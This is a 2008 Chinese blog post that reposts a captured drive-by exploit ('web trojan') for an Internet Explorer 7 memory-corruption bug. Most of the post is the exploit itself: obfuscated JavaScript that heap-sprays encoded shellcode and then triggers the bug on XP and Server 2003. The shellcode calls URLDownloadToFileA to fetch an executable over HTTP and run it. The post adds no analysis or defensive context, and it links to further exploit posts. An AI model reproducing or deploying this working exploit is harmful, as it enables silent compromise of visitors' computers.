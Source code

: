 ```yaml
---
title: ms08069利用代码exploit 网马
description: 话说这个ms08069利用代码exploit网马代码好像和夜火我昨天发的IE7漏洞0dayexploit的代码差不多，对代码这一块，我也不是很懂，发出来也只是给大家看，我自己没什么能力研究哈~，大家自行辨认。
date: 2008-12-11 10:06:34
category: 漏洞信息
tags: ['网马', '微软', '漏洞信息', 'exploit']
post_id: 711
alias: ms08069-exploit
ViewNums: 3213
---
```


话说这个 [**ms08069利用代码exploit 网马**](/blog/ms08069-exploit) 代码好像和[夜火](/blog/)我昨天发的[IE7漏洞0day exploit](/blog/ie7-0day-exploit "ie7漏洞0day exploit"的代码差不多，对代码这一块，我也不是很懂，发出来也只是给大家看，我自己没什么能力研究哈~，大家自行辨认。

[cnhulk的自留地](http://hi.baidu.com/cnhulk/blog/item/c554f60f844a0ce037d1227f.html)：

据说有人已经发出来了，俺也把俺昨天抓的那个发出来吧。

如何用就自己拿去研究好了，自己小解了一下。

<script>
function sleep(milliseconds)
{
var start=new Date().getTime();
for(var i=0;i<1e7;i++)
{
   if((new Date().getTime()-start)>milliseconds)
   {
    break
   }
}
}function spray(sc)
{
var bwkbnwvojsqweyvwgabdlie=0x0a0a0a0a;
var bwkbnwvojsqweyvwgabdlieyqfbygrgz=unescape;
var asdfkj129312asdfasd=bwkbnwvojsqweyvwgabdlieyqfbygrgz(sc);
var heapBlockSize=0x100000;
var payLoadSize=asdfkj129312asdfasd.length*2;
var szlong=heapBlockSize-(payLoadSize+0x038);
var retVal=bwkbnwvojsqweyvwgabdlieyqfbygrgz("%u0a0a%u0a0a");
retVal=getSampleValue(retVal,szlong);
aaablk=(bwkbnwvojsqweyvwgabdlie-0x100000)/heapBlockSize;
zzchuck=new Array();
for(i=0;i<aaablk;i++)
{
   zzchuck[i]=retVal+asdfkj129312asdfasd
}
}
function getSampleValue(retVal,szlong)
{
while(retVal.length*2<szlong)
{
   retVal+=retVal
}retVal=retVal.substring(0,szlong/2);
return retVal
}var a1="%u";
spray("%u56e8%u0000%u5300%u5655%u8b57%u246c%u8b18%u3c45%u548b%u7805%uea01%u4a8b%u8b18%u205a%ueb01%u32e3%u8b49%u8b34%uee01%uff31%u31fc%uacc0%ue038%u0774%ucfc1%u010d%uebc7%u3bf2%u247c%u7514%u8be1%u245a%ueb01%u8b66%u4b0c%u5a8b%u011c%u8beb%u8b04%ue801%u02eb%uc031%u5e5f%u5b5d%u08c2%u5e00%u306a%u6459%u198b%u5b8b%u8b0c%u1c5b%u1b8b%u5b8b%u5308%u8e68%u0e4e%uffec%u89d6%u53c7%u8e68%u0e4e%uffec%uebd6%u5a50%uff52%u89d0%u52c2%u5352%uaa68%u0dfc%uff7c%u5ad6%u4deb%u5159%uff52%uebd0%u5a72%u5beb%u6a59%u6a00%u5100%u6a52%uff00%u53d0%ua068%uc9d5%uff4d%u5ad6%uff52%u53d0%u9868%u8afe%uff0e%uebd6%u5944%u006a%uff51%u53d0%u7e68%ue2d8%uff73%u6ad6%uff00%ue8d0%uffab%uffff%u7275%u6d6c%u6e6f%u642e%u6c6c%ue800%uffae%uffff%u5255%u444c%u776f%u6c6e%u616f%u5464%u466f%u6c69%u4165%ue800%uffa0%uffff%u2e2e%u765c%ue800%uffb7%uffff%u2e2e%u765c%ue800%uff89%uffff%u7468%u7074%u2f3a%u6c2f%u636f%u6c61%u6f68%u7473%u632f%u6c61%u2e63%u7865%u0065");
sleep(2000);
nav=navigator.userAgent.toLowerCase();
if(navigator.appVersion.indexOf('MSIE')!=-1)
{
version=parseFloat(navigator.appVersion.split('MSIE')[1])
}if(version==7)
{
w2k3=((nav.indexOf('windows nt 5.2')!=-1)||(nav.indexOf('windows 2003')!=-1));
wxp=((nav.indexOf('windows nt 5.1')!=-1)||(nav.indexOf('windows xp')!=-1));
if(wxp||w2k3)document.write('<XML ID=I><X><C><![CDATA[<image SRC=http://&#254;&#2570;&#114;.test.net src=http://www.google.com]]><![CDATA[>]]></C></X></xml><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML><XML ID=I></XML><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>');
var i=1;
while(i<=10)
{
   window.status=" ";
   i++
}
}
</script>

相关：
[MS08-068 Exploit -SmbRelay3 NTLM Replay Attack Tool/Exploit](/blog/ms08-068-exploit-smbrelay3-ntlm-replay-attack-tool)
[MS08-067漏洞批量检测程序-MS08-067 check](/blog/ms08-067-check)
[MS08-067 Exploit for CN 2k/xp/2003 .net version](/blog/ms08-067-exploit-for-cn-2k-xp-2003-net-version)
[MS08-067 Exploit for CN 2k/xp/2003 bypass version](/blog/ms08-067-exploit-for-cn-2k-xp-2003-bypass-version)
[ms08-066 Exploit](/blog/ms08-066-exploit)
[MS08-052 - MS Windows GDI+ Proof of Concept](/blog/ms08-052-gdi)
[MS08-046 - MS Windows InternalOpenColorProfile Heap Overflow PoC](/blog/ms08-046)
[ms08025 分析 Windows的内核漏洞](/blog/ms08025-fenxi-windows-loudong)

